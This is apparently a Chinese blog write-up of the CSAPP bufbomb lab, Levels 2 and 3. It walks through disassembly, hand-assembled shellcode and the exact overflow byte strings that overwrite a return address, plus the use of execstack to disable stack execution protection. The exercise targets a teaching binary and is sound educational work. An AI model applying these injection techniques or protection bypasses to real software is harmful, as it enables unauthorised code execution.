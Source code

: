 ```yaml
---
layout: post
title: CSAPP:bufbomb（三）
category: CSAPP_LAB
description: CSAPP:bufbomb
published: true
---
```


## Level 2:Firecracker
```c
int global_value = 0;
void bang(int val)
{
  entry_check(2); /* Make sure entered this function properly */
  if (global_value == cookie) {
    printf("Bang!: You set global_value to 0x%x\n", global_value);
    validate(2);
  } else
    printf("Misfire: global_value = 0x%x\n", global_value);
  exit(0);
}
```
Level 2在[Level 1](https://www.zybuluo.com/windmelon/note/1333271)的基础上增加了一个全局变量`int global_value`，阅读代码我们可以发现这次我们不需要管参数`int val`的值，而是需要把全局变量`global_value`设置为与`cookie`相同的值。

我们知道，在程序中，局部变量、函数参数是保存在栈中，因此我们可以通过缓冲区溢出的方式覆写栈中内容达到修改一些局部变量或者函数参数的目的，而全局变量是保存在内存的其他区域，因此，要修改全局变量，必须要知道变量的地址，并且要用指令对其进行修改，那我们先来看一下`<bang>`的汇编代码

![image.png-174.6kB][1]

可以看到七八行的代码有两个静态的地址0x804a1dc和0x804a1cc
```asm
8048d72:	a1 dc a1 04 08       	mov    0x804a1dc,%eax
8048d77:	3b 05 cc a1 04 08    	cmp    0x804a1cc,%eax
```

猜测应该就是`global_value`和`cookie`的地址，使用gdb验证一下

![image.png-138kB][2]

值分别为0和0x26f253e8即`global_value`和`cookie`的值

接下来就要想办法把0x804a1dc里面的值修改为0x26f253e8

有了前面的经验，我们知道buf+16到buf+19存的是跳转地址，那么我们就可以把指令写到buf+0到buf+15中，然后在把跳转地址写成buf就可以了。需要注意的是指令不能超过16个字节，不然不够空间储存跳转地址

首先，我们先明确我们需要进行的操作
```asm
movl $0x26f253e8,%eax
movl %eax,0x804a1dc
push  $0x08048d60
ret
```

首先将0x26f253e8赋值给%eax寄存器，再将%eax寄存器中的值存到0x804a1dc这个地址中，完成对`global_value`的赋值，然后再将`<bang>`的首地址push入栈，然后调用ret指令，即取栈顶值作为跳转目的地

指令有了，我们如何知道它的机器码呢，我们可以先用gcc -c对这些指令进行汇编，然后再用objdump进行反汇编，就可以得到需要的机器码了

```asm
0000000000000000 <.text>:
   0:	b8 e8 53 f2 26       	mov    $0x26f253e8,%eax
   5:	a3 dc a1 04 08 	        mov    %eax,0x804a1dc
   a:	68 60 8d 04 08       	pushq  $0x8048d60
  f:	c3                   	retq   
```

正好十六个字节，接下来需要知道buf[12]数组的首地址，用gdb观察

![image.png-134.9kB][3]

buf[12]首地址为0xffffb8fc，那么我们需要输入的字节就为
**b8 e8 53 f2 26 a3 dc a1 04 08 68 60 8d 04 08 c3 fc b8 ff ff**

但是如果此时直接运行程序会出现段错误，因为现在的计算机都对栈进行了保护，不可以在栈中直接执行指令，我们需要使用execstack工具解除栈执行限制

![image.png-49.8kB][4]

execstack -s解除栈执行限制，使用execstack -q查看，如果为X则可以在栈中执行指令

测试

![image.png-157.4kB][5]

不知道为什么，只能在gdb中运行成功，如果直接运行程序则会出现段错误

![image.png-64.3kB][6]

经查阅资料，是因为Linux系统中存在随机地址空间分配机制（ASLR），而在使用gdb的时候，gdb会关闭ASLR，而在实际运行的时候，计算机会对地址进行随机分配，在GDB中找到的地址不是程序实际运行时的地址，要找到实际运行时的地址还得费一番功夫，这里就不展开了

## Level 3:Dynamite

Level 3比较简单，不需要我们调用额外的函数，只需要我们执行完`getbuf()`后，返回的值是`cookie`而不是1，并且不破坏栈的结构。

即，我们要保证我们的返回要像正常的步骤，即在`test()`函数中调用`getbuf()`前后，%ebp的值保持不变，那么我们就需要知道正常返回的%ebp值是什么，然后使相应位置的内容保持不变，就可以维持栈结构了

![image.png-138.1kB][7]

![20181106171142.png-65.4kB][8]

将断点设置在`<getbuf>`首地址，此时查看%ebp的值，即为返回时应保存在%ebp中的值，可以看到为0xffffb928

接下来我们需要把返回值设为`cookie`，观察`<getbuf>`的汇编码可以发现返回值是保存在%eax中，所以我们构建指令
```asm
0000000000000000 <.text>:
   0:	b8 e8 53 f2 26       	mov    $0x26f253e8,%eax
   5:	68 1e 90 04 08       	pushq  $0x804901e
   a:	c3                   	retq   
   b:	90                   	nop
```

最后push入栈的是`<test>`中执行完`call <getbuf>`后下一条指令的地址，所以我们需要输入的字节为
**b8 e8 53 f2 26 68 1e 90 04 08 c3 90 28 b9 ff ff fc b8 ff ff**

在gdb中测试

![image.png-156.5kB][9]

成功


  [1]: http://static.zybuluo.com/windmelon/uloeady8xnufj1nphgr3q97q/image.png
  [2]: http://static.zybuluo.com/windmelon/vecuwihi3971x0xz1o1wu50o/image.png
  [3]: http://static.zybuluo.com/windmelon/n81hvv6ja16dn8amlk4gwfnv/image.png
  [4]: http://static.zybuluo.com/windmelon/pnj3sfj1zu320b7696w1hmft/image.png
  [5]: http://static.zybuluo.com/windmelon/w2qzlwu61rxc0f0jc6cnbfn9/image.png
  [6]: http://static.zybuluo.com/windmelon/btm5tuyv5gnqp98wcakts27z/image.png
  [7]: http://static.zybuluo.com/windmelon/847k2gsuozunif0zsugw5htl/image.png
  [8]: http://static.zybuluo.com/windmelon/kz86ph70roalx8u6vbon8ijx/20181106171142.png
  [9]: http://static.zybuluo.com/windmelon/wpvg9pauymucw96j3r2mhdx5/image.png
